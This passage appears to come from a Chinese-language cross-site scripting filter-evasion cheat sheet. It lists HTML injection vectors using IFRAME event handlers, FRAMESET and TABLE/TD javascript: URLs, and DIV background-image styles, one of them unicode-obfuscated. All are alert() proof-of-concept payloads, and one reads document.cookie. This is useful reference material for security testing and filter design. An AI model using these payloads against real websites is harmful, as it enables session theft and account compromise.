 IFrames或其他元素可以使用事件如下（提出被 David Cross）

```
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>

```

* * *

FRAME
-----

Frames有一些列相同的问题像 iframes

```
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>

```

* * *

TABLE
-----

```
<TABLE BACKGROUND="javascript:alert('XSS')">

```

* * *

TD
--

像上面一样，TD也可以通过 BACKGROUND 来包含javascript xss向量

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')">

```

* * *

DIV background-image
--------------------

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

```

* * *

使用 unicoded编码xss利用代码的DIV background-image
-----------------------------------------

这是被轻微的修改去混淆 url 参数。他是最早被发现被 Renaud Lifchitz用于攻击hotmail。

```
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">

```
